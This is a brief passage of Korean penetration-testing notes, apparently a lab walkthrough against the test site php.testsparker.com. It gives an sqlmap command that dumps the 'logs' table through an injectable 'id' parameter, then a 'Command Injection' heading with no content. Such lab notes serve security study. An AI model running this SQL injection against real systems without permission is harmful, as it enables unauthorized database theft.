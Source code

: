   - ![logs DB 테이블명 결과](./images/2.png)
- logs 테이블의 데이터 획득: `python sqlmap.py -u "http://php.testsparker.com/artist?id=1" -p "id" --level=3 --risk=3 --threads=10 -D logs -T logs --dump --hex`
  - ![logs 테이블 데이터 결과](./images/3.png)
### Command Injection
